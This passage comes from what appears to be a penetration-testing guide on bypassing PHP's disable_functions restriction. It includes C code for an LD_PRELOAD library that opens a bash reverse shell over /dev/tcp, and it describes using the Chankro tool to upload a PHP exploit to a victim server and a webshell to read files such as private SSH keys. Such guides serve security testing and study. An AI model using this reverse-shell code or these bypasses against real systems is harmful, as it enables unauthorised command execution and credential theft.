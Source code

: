     gnupg_init : If your system has php-gnupg module installed then this function also can be used to bypass disable_functions.

    new imagick(): You can find here a writeup to learn how to abuse this class

You can find here the fuzzing script that was used to find those functions.

Here is a library you can compile to abuse the LD_PRELOAD env variable:

#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
​
uid_t getuid(void){
	unsetenv("LD_PRELOAD");
	system("bash -c \"sh -i >& /dev/tcp/127.0.0.1/1234 0>&1\"");
	return 1;
}

Bypass using Chankro

In order to abuse this misconfiguration you can Chankro. This is a tool that will generate a PHP exploit that you need to upload to the vulnerable server and execute it (access it via web).
Chankro will write inside the victims disc the library and the reverse shell you want to execute and will use theLD_PRELOAD trick + PHP mail() function to execute the reverse shell.

Note that in order to use Chankro, mail and putenv cannot appear inside the disable_functions list.
In the following example you can see how to create a chankro exploit for arch 64, that will execute whoami and save the out in /tmp/chankro_shell.out, chankro will write the library and the payload in /tmp and the final exploit is going to be called bicho.php (that's the file you need to upload to the victims server):
shell.sh
Chankro

#!/bin/sh
whoami > /tmp/chankro_shell.out

If you find that mail function is blocked by disabled functions, you may still be able to use the function mb_send_mail.
More information about this technique and Chankro here: https://www.tarlogic.com/en/blog/how-to-bypass-disable_functions-and-open_basedir/​
"Bypass" using PHP capabilities

Note that using PHP you can read and write files, create directories and change permissions.
You can even dump databases.
Maybe using PHP to enumerate the box you can find a way to escalate privileges/execute commands (for example reading some private ssh key).

I have created a webshell that makes very easy to perform this actions (note that most webshells will offer you this options also): https://github.com/carlospolop/phpwebshelllimited​
Modules/Version dependent bypasses

There are several ways to bypass disable_functions if some specific module is being used or exploit some specific PHP version:

    ​FastCGI/PHP-FPM (FastCGI Process Manager)​
